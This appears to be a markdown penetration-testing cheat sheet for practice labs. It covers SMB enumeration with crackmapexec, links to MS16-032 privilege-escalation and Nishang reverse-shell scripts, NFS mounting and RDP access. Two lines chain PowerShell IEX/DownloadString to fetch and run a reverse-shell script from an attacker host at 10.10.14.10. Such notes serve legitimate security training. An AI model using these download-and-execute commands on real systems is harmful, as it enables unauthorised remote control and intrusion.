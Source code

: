 `crackmapexec smb 10.10.10.161 --users`

`crackmapexec smb 10.10.10.161 --groups`

### Misconfig/Vulnerability specific commands 
[Pre-Compiled Windows Exploits for common vulns](https://github.com/abatchy17/WindowsExploits)

[How to exploit MS16-032](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

[MS16-032 Exploit Script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) 

**note** add a line at the end `Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"` 

[Upload web.config file for ASP server own](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

[Buffer Overflow Cheatsheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)

[Buffer Overflow tutorial](https://www.youtube.com/watch?v=1X2JGF_9JGM)


### Mount an NFS share that has ACL applied (root squashing)
` sudo nfspysh -o server=10.10.11.191:/var/www/html` 

[Mount and extract password hashes from VHD Files](https://vk9-sec.com/mount-extract-password-hashes-from-vhd-files/)


### Shells and Remote access 
[Nishang PowerShell pentesting framework (Payloads, shells, etc)](https://github.com/samratashok/nishang)

[Invoke-Powershelltcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)

### RDP to Machine
`xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:[MACHINE_NAME] /u:[USERNAME] /p:[PASSWORD] /size:1180x708`

`EX: xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:manageengine /u:administrator /p:studentlab /size:1800x900`

### Check if Powershell is running as 32 or 64 bit (Helpful to check if kernel exploits are failing)
`PS C:\Users> [Environment]::Is64BitProcess` returns true/false 
if running as 32 bit, call the powershell from `C:\windows\sysNative` instead of `C:\windows\system32` 
Example - `C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1')`  
More info in writeup for [Optimum](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

### Fix $PATH on Windows (good if whoami, certutil and other exe's are "not recognized")
`set PATH=%SystemRoot%\system32;%SystemRoot%;` 
